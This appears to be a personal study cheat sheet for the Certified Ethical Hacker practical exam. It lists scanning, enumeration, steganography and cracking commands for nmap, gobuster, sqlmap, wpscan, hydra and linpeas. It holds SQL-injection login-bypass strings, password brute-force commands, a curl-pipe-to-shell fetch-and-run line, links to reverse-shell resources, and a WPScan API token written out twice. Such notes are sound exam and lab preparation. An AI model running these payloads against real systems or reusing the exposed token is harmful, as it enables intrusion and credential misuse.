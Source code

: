 sudo su

vi get-stuff.sh

mkdir CEH
cd CEH
sudo gunzip /usr/share/wordlists/rockyou.txt.gz
sudo curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh > linpeas.sh
sudo chmod +x linpeas.sh
sudo apt install stegseek
sudo apt install gobuster
sudo apt install enum4linux
sudo apt install xsltproc
sudo gem install wpscan




## NMAP
sudo nmap -O -T5 -sV -sC -oA nmap_$ip1_out_all -vv $ip1/24
sudo xsltproc nmap_out_all.xml nmap_$ip1_out_all.html

cd CEH;mkdir $ip;cd $ip;sudo nmap -O -T5 -sV -sC -oA nmap_$ip\_out -vv $ip/24;sudo xsltproc nmap_$ip\_out.xml -o nmap_$ip\_out.html;

### All ports
sudo nmap -O -T5 -sV -sC -p- -oA nmap_$ip\\_out_all -vv $ip/24;sudo xsltproc nmap_$ip\\_out_all.xml -o nmap_$ip\\_out_all.html;



### Quick Host Discovery
sudo nmap -O -T5 -sn $ip/24 
sudo nmap -O -T5 -sn -PR $ip/24                   (-PR ARP requests)

nmap -p 3389 --script rdp-ntlm-info <target>




## GoBuster
sudo gobuster dir  -w /usr/share/wordlists/rockyou.txt -u http://$ip

## SQLi
admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1—

sqlmap -u “url" --cookie="cookie" --dbs


##Steganography
sudo stegseek -wl /usr/share/wordlists/rockyou.txt -sf filename

snow.exe -C -p “password” stegfile.txt

## Enum4Linux
sudo enum4linux -U -o $ip

## WPScan (https://github.com/wpscanteam/wpscan/wiki/WPScan-User-Documentation)

### Known vulns
wpscan -e vp,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
### All vulns:
wpscan -e ap,u,t --plugins-detection mixed --api-token j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ --url <example.com>
### Password Bruteforce
wpscan -e u --passwords /path/to/password_file.txt  --url <example.com>
##Linpeas Winpeas also exists apparently
curl -L https://github.com/peass-ng/PEASS-ng/releases/latest/download/linpeas.sh | sh
./linpeas.sh -a > /tmp/linpeas.txt

## Hydra
hydra -l <username> -P given_wordlist ftp://$ip
https://github.com/frizb/Hydra-Cheatsheet

## Find Domain Controller
https://serverfault.com/questions/78089/find-name-of-active-directory-domain-controller
### Find FDQN
https://www.google.com/search?q=determine+FDQN+of+remote+domain+controller&client=firefox-b-d&sca_esv=a7c8b91352f94de3&sxsrf=ADLYWIKttXggW1UFvbeJvw7jxaG1ZFa0Qg%3A1732694251615&ei=69BGZ8inJcmO4-EP0t3G8Qo&ved=0ahUKEwiIyfyKhfyJAxVJxzgGHdKuMa4Q4dUDCA8&uact=5&oq=determine+FDQN+of+remote+domain+controller&gs_lp=Egxnd3Mtd2l6LXNlcnAiKmRldGVybWluZSBGRFFOIG9mIHJlbW90ZSBkb21haW4gY29udHJvbGxlcjIKECEYoAEYwwQYCjIKECEYoAEYwwQYCjIKECEYoAEYwwQYCkjbEFCvBVj9CnABeAGQAQCYAb0CoAHXCqoBBzAuNi4wLjG4AQPIAQD4AQGYAgKgApwBwgIKEAAYsAMY1gQYR5gDAOIDBRIBMSBAiAYBkAYIkgcDMS4xoAfbOA&sclient=gws-wiz-serp


### Entropy of ELF
https://github.com/sandflysecurity/sandfly-entropyscan
Entry point for ELF: readelf -a executable_name



UNIX command exploits: GTFOBins
CEH exercise: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/system-hacking/tasks.md


Check all suid bit programs (find / -perm -u=s -type f 2>/dev/null)
python -c import pty;pty.spawn("/bin/bash")

General Check: https://book.thegurusec.com/certifications/certified-ethical-hacker-practical
General Check 2: https://github.com/cmuppin/CEH/tree/main/
General Check 3: https://book.hacktricks.xyz/
General Check 4: https://github.com/infovault-Ytube/CEH-Practical-Notes


Reverse Shells: https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
		https://github.com/pentestmonkey/php-reverse-shell


Wpscan API key: j6ytwWSsVejE1kASMPSx2TOrLuSzLPiAlc25i6ndJgQ

Android: https://github.com/cmuppin/CEH/blob/main/Android
	https://attack.mitre.org/matrices/mobile/android/

Check Service vuln: https://www.cvedetails.com/

Metasploit Priv Esc: run post/multi/recon/local_exploit_suggester

CEH Notes: https://github.com/3ls3if/Cybersecurity-Notes/blob/main/ethical-hacking-and-pen-testing-notes/ceh-mindmaps/cloud-computing/tasks.md

OWASP CheatSheet: https://cheatsheetseries.owasp.org/cheatsheets/


TOOLS:
Nmap/zenmap
Metasploit
Searchsploit
Hydra
Aircrack-ng
Veracrypt
Theef RAT
BCTextEncoder
StegHide
Adb
John the ripper
Wireshark
Phonesploit
Sqlmap
ZAP
Open Stego
Detect It Easy (DIE)
Openvas
Smbclient
SSH
Crackstation
Hashes.com
Cyberchef
emn178.github.io/online-tools/crc32_checksum.html
